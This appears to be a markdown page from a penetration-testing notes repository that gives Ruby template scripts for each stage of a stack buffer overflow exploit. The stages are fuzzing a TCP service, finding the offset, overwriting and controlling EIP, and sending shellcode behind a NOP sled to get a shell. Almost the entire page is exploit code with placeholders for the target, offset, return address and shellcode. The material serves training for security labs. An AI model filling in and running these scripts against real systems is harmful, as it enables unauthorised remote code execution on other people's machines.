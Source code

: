 
### Ruby Templates for BOF

There are different stages of BOF and we'll have different scripts for each stage:

### Spiking & Fuzzing
```Ruby
require 'socket'

buff = "A" * 100
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

begin
    while true
        s = TCPSocket.open(RHOST, RPORT)
        s.puts buff + '\r\n'
        s.close
        sleep 1
        buffSize = buff.size
        buff += "A" * 100
    end
rescue Interrupt
    puts "Debugger crashed at #{buffSize} bytes"
end
```
### Finding Offset
```Ruby
require 'socket'

buff = #Based on at what bytes you get to EIP, generate your pattern and insert it here, example "AAAA"
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

begin
    s = TCPSocket.open(RHOST, RPORT)
    s.puts buff + '\r\n'
    s.close
rescue Interrupt
    puts "Debugger crashed at #{buffSize} bytes"
end
```    
### Overwriting EIP
```Ruby
buff = #Based on the offset bytes, place your pattern here 
buff += "B" * 4
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff + '\r\n'}
```
### Owning EIP
```Ruby
buff = "A" * (Offset Value)
buff += #Address of EIP
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff + '\r\n'}
```
### Getting a Shell
```Ruby
shellcode = #Place your shellcode here
buff = "A" * (Offset Value)
buff += #Address of EIP 
buff += "\x90" * (8/10/12/16/20...) 
buff += shellcode
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff + '\r\n'}
```
[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
